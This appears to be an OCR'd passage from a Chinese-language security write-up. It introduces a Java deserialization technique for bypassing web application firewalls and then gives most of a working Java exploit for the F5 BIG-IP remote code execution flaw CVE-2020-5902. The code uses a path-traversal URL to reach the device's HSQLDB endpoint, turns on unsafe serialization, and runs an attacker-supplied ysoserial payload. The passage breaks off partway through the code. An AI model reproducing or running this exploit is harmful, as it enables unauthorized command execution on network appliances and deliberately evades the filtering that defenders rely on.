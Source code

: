 **通过 java 反序列化绕过 waf 的 payload ：**

上一种 payload 特征明显，很容易被 waf 等设备拦截。在这里我们可以使用 java 反序列化配合 cve 2020-5902 去执行命令。做到隐藏特征以绕过waf。

```python
/*
 Exploit Title: F5 BIG-IP Remote Code Execution
 Date: 2020-07-06
 Authors: Charles Dardaman of Critical Start, TeamARES
                  Rich Mirch of Critical Start, TeamARES
 CVE: CVE-2020-5902
 Requirements:
   Java JDK
   hsqldb.jar 1.8
   ysoserial https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
*/

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.Statement;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.io.IOException;
import org.hsqldb.lib.StringConverter;

public class f5RCE {

	public static void main(String[] args) {
		Connection connection;
		Statement statement;

		if(args.length != 2) {
			System.err.println("\nUsage: <hostname> <payload.txt>\n");
			System.exit(1);
		}
		String server = args[0];
		String pfile = args[1];
		String payload = null;

		try {
			payload = new String(Files.readAllBytes(Paths.get(pfile)));
			payload = payload.replaceAll("(\\n|\\r)","");
		} catch (IOException e) {
			e.printStackTrace();
		}

		String dburl = "jdbc:hsqldb:https://" + server +
                               ":443/tmui/login.jsp/..%3b/hsqldb/";

		System.out.println("Connecting to " + server);
		try {
			Class.forName("org.hsqldb.jdbcDriver");
			connection = DriverManager.getConnection(dburl, "sa","");
			statement = connection.createStatement();
			statement.execute("call \"java.lang.System.setProperty\"('org.apache.commons.collections.enableUnsafeSerialization','true')");
			statement.execute("call \"org.hsqldb.util.ScriptTool.main\"('" + payload +"');");
		} catch (java.sql.SQLException sqle) {
			// ignore java.sql.SQLException: S1000
			// General error java.lang.IllegalArgumentException: argument type mismatch
			if(sqle.getSQLState().equals("S1000") && sqle.getErrorCode() == 40) {
				System.out.println("Payload executed");
			} else {
				System.out.println("Unexpected SQL error");
```